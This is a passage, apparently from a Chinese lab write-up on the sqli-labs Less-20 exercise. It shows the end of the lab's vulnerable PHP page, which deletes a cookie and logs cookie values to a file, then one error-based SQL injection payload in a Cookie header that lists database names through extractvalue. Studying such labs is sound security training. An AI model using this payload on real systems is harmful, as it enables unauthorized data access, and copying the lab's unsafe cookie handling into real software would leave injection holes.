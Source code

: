 ```php
            echo "<br><br><b>";
            //echo '<img src="../images/Less-20.jpg" />';
        }
        echo '<center>';
        echo '<form action="" method="post">';
        echo '<input  type="submit" name="submit" value="Delete Your Cookie!" />';
        echo '</form>';
        echo '</center>';
    } else {
        echo '<center>';
        echo "<br>";
        echo "<br>";
        echo "<br>";
        echo "<br>";
        echo "<br>";
        echo "<br>";
        echo '<font color= "#FFFF00" font size = 6 >';
        echo " Your Cookie is deleted";
        setcookie('uname', $row1['username'], time() - 3600);
        header('Location: index.php');
        echo '</font></center></br>';

    }


    echo "<br>";
    echo "<br>";
    //header ('Location: main.php');
    echo "<br>";
    echo "<br>";

    //echo '<img src="../images/slap.jpg" /></center>';
    //logging the connection parameters to a file for analysis.
    $fp = fopen('result.txt', 'a');
    fwrite($fp, 'Cookie:' . $cookee . "\n");

    fclose($fp);

}
?>

</body>
</html>
```

### 注入流程-Less-20

#### 爆库

```
Cookie: uname=admin' and extractvalue(1,concat(0x7e, (select schema_name from information_schema.schemata limit 1,1)))#
```
